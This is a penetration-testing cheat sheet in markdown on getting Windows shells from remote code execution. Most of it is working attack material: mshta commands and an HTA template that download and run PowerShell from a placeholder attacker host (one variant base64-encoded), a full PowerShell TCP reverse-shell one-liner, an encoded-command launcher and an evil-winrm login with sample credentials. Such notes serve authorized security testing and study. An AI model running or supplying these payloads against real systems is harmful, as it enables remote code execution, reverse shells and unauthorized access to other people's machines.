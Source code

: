# Getting shells from RCE on Windows

These are just some of the ways

* Sources:
    * [hacktricks.xyz](https://book.hacktricks.xyz/shells/shells/windows)
    * [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
    
    
## mshta
* Two types of files to download and execute
    * .hta
    * .sct

* Two types of ways (that I know of) to retrieve
    * http
        * `#!batch mshta http://webserver/payload.hta`
    * smb
        * `#!batch mshta \\webdavserver\folder\payload.hta`

* Script: [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
    ```html
    <html>
    <head>
    <HTA:APPLICATION ID="HelloExample">
    <script language="jscript">
            var c = "cmd.exe /c calc.exe"; 
            new ActiveXObject('WScript.Shell').Run(c);
    </script>
    </head>
    <body>
    <script>self.close();</script>
    </body>
    </html>
    ```

* Sample usage to get powershell shell
    1. On your Kali, host (i.e. `#!bash python3 -m http.server`) the two files
        * an hta file, i.e. from: [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
            ```html
            <html>
            <head>
            <HTA:APPLICATION ID="HelloExample">
            <script language="jscript">
                    var a = 'powershell -Exec Bypass IEX (New-Object System.Net.WebClient).DownloadString("""http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1""")'
                    var b = 'powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString("""http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1""")"'
                    var c = 'powershell -Exec Bypass -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKABoAHQAdABwADoALwAvADwAWQBPAFUAUgBfAEsAQQBMAEkAXwBJAFAAXwBPAFIAXwBGAEkATABFAEgATwBTAFQASQBOAEcAXwBNAEEAQwBIAEkATgBFAD4AOgA4ADAAMAAwAC8AbQBpAG4AaQAtAHIAZQB2AGUAcgBzAGUALgBwAHMAMQApAA=='
                    new ActiveXObject('WScript.Shell').Run(a);
            </script>
            <!-- -------READ------- -->
            <!--var c is base64 encoded with the value of "IEX(New-Object System.Net.WebClient).DownloadString('http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1')" -->
            <!-- """ does not work in encoding, use proper syntax -->
            <!-- choose between var a,b or c to replace 'x' in ...').Run(x) above
            </head>
            <body>
            <script>self.close();</script>
            </body>
            </html>
            ```
        * [mini-reverse.ps1](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5) from @staaldraad
            * Modify to change IP Address and port of reverse shell listener
    1. On your Kali, Run your reverse shell listener (`msf exploit/multi/hanlder` or `#!bash nc`)
    1. On the target machine, execute:
        ```batch
        mshta http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.hta
        ```
    
        
## Powershell
* Please see script with examples above (mshta - var a,b and c)
* To be added here and more
* Working shells I have tried:
    * [Mini-Reverse](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5) by @staaldraad

### One-liners
* Famous powershell one-liner
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<LHOST>',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
* You can [base64 encode] the block above and execute with this:
    * [Base64 encode in Linux](../Useful_Commands/Linux.html#base64-encode)
    * [Base64 encode in Windows](../Useful_Commands/Windows.html#base64-encode-powershell-commands)
```powershell
powershell -EncodedCommand <Base64_payload>
```

### Fully interactive powershell
* Get fully interactive shell with [ConPtyShell](https://github.com/antonioCoco/ConPtyShell)

### Tools for remote CLI connection
* [Evil-Winrm](https://github.com/Hackplayers/evil-winrm) [^1][^2]
    ```
    bundle exec evil-winrm -s "/opt/PowerSharpPack/PowerSharpBinaries" -e "/opt/Sharp collection/NetFramework_4.5_x64" -i DC.ACME.LOCAL  -u administrator -p 'P@ssw0rd'
    ```
[^1]: [Sharp Collection](https://github.com/Flangvik/SharpCollection)
[^2]: [Power Sharp Pack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)
